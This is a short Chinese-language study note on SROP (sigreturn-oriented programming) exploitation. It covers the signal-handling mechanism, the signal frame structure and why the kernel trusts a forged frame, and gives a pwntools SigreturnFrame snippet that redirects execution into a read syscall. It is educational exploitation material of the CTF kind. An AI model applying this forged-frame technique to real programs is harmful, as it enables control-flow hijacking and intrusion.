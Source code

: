 ```yaml
---
title: SROP
category: ROP
---
```


## # Signal 机制

![]({{"\assets\ProcessOfSignalHandlering.png"}})

在 signal handler 返回之后，sigreturn 系统调用处理函数会根据当前的栈指针 esp / rsp 指向的 Signal Frame 对进程上下文进行恢复。

## # signal frame 的结构

![]({{"\assets\srop-example-1-1.png"}})

## # 利用原理

-  Signal Frame 被保存在用户的地址空间中，所以用户是可以读写的。
-  内核处理 sigreturn 系统调用时不会检查当前的 Signal Frame 是否是由内核所创建。

## # 创建 signal frame

```python
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = leak_stack
sigframe.rdx = 0x400
sigframe.rsp = leak_stack
sigframe.rip = syscall_retn
io.send(str(sigframe))
```

SigreturnFrame() 会创建一个完整的 signal frame（包括 rt_sigreturn）且 rt_sigreturn 初始化为 0。

## # 一些技巧

- 以 read 的返回值设置 eax / rax。